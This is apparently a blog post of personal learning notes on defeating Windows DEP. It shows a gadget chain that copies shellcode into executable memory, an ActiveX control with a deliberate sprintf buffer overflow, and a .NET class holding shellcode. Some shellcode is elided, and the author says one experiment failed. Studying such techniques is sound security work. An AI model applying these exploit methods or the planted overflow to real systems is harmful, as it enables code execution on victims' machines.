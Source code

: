 ```yaml
---
title: Exploit learning notes 016 executable memory and .net attack DEP
description: Ret2Libc's DEP attack using VirtualProtect and VirtualAlloc
date: 2020-11-20 14:13:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


Source: [Moeomu's Blog](/posts/exploit-learning-notes-016-executable-memory-and-.net-attack-dep/)

## Exploit executable memory to attack DEP

### Principle

- Sometimes there is a readable, writable and executable section of memory in the process memory space, if we can copy the shellcode into this memory and hijack the program flow, our shellcode will have the chance to execute

### Code

```cpp
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"......"
"\x90\x90\x90\x90"
"\x8A\x17\x84\x7C"//pop eax retn
"\x0B\x1A\xBF\x7C"//pop pop retn
"\xBA\xD9\xBB\x7C"//修正EBP retn 4
"\x5F\x78\xA6\x7C"//pop retn
"\x08\x00\x14\x00"//可执行内存中弹出对话框机器码的起始地址
"\x00\x00\x14\x00"//可执行内存空间地址，复制用
"\xBF\x7D\xC9\x77"//push esp jmp eax && 原始 shellcode 起始地址
"\xFF\x00\x00\x00"//shellcode 长度
"\xAC\xAF\x94\x7C"//memcpy
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"......"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;

void test()
{
    char tt[176];
    memcpy(tt, shellcode, 450);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();

    return 0;
}
```

### Postscript

- It is reasonable to have RWE access to the memory area, but unfortunately, this experiment was not completed

## NET attack on DEP

### Principle

- NET files have the same structure as PE files, i.e. they also have .text and other segments, which are also mapped to memory and have certain executable properties. NET with executable attributes, and then let the program execute in this area to execute the shellcode.
- Requirements
  - ActiveX control with overflow vulnerability
  - NET control with shellcode
  - POC page that can trigger an overflow vulnerability in the ActiveX control

### Code

> ActiveX control with overflow vulnerability

```cpp
void CVulnerAXCtrl::test(LPCTSTR str)
{
    // AFX_MANAGE_STATE(AfxGetStaticModuleState());
    // TODO: Add your dispatch handler code here
    printf("aaaa"); // 定位该函数的标记
    char dest[100];
    sprintf(dest, "%s", str);
}
```
> .NET control with shellcode

```c#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;

namespace DEP_NETDLL
{
    public class Class1
    {
        public void Shellcode()
        {
            string shellcode =
            "\u9090\u9090\u9090\u9090\u9090\u9090\u9090\u9090" +
            "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91" +
            "\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332" +
            "\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c" +
            "\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505" +
            "\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b" +
            "\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06" +
            "\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c" +
            "\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd" +
            "\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33" +
            "\u6853\u6577\u7473\u6668\u6961\u8b6c\u53c4\u5050" +
            "\uff53\ufc57\uff53\uf857"
            ;
        }
    }
}
```

## Challenging DEP with Java Applet

> Difficult to find a suitable version, so this experiment is skipped and will be added later when I have a chance
